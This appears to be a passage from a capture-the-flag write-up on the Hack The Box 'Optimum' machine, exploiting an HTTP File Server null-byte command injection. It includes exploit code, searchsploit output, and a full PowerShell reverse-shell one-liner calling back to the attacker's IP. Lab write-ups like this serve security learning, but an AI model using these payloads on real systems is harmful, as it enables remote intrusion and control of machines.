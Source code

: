 ```python
	url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
	print(url)
	response = http.request('GET', url)
	
except Exception as ex:
	print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
	print(ex)
```

Running it ouputs a URL. It seems to be a null-byte vulnerability in the search field

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit -m windows/webapps/49125.py
Copied to: /home/mac/Documents/HTB/optimum/49125.py
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ mv 49125.py HttpFileServerRCE.py
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python3 HttpFileServerRCE.py 10.10.10.8 80 whoami
http://10.10.10.8:80/?search=%00{.+exec|whoami.}
```

Visiting the URL doesn't output the result anywhere:
![[Pasted image 20210613111557.png]]

We might have to jump straight to a powershell reverse shell. If we knew the directory of the webserver we could do a staged payload (it might be `c:\inetpub\wwwroot` but we can't know for sure, and it doesn't seem to be IIS)

I tried this to try and get a shell:

`10.10.10.8/?search=%00{.+exec|powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.211',413);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()".}`

But no result. I checked if I could connect out to my box, but this also didn't work:

`10.10.10.8/?search=%00{.+exec|ping -n 1 10.10.16.211.}`

An alternate searchsploit term yielded more reuslts:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit hfs
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apple Mac OSX 10.4.8 - DMG HFS+ DO_HFS_TRUNCATE Denial of Service                                                                                                      | osx/dos/29454.txt
Apple Mac OSX 10.6 - HFS FileSystem (Denial of Service)                                                                                                                | osx/dos/12375.c
Apple Mac OSX 10.6.x - HFS Subsystem Information Disclosure                                                                                                            | osx/local/35488.c
Apple Mac OSX xnu 1228.x - 'hfs-fcntl' Kernel Privilege Escalation                                                                                                     | osx/local/8266.txt
FHFS - FTP/HTTP File Server 2.1.2 Remote Command Execution                                                                                                             | windows/remote/37985.py
```
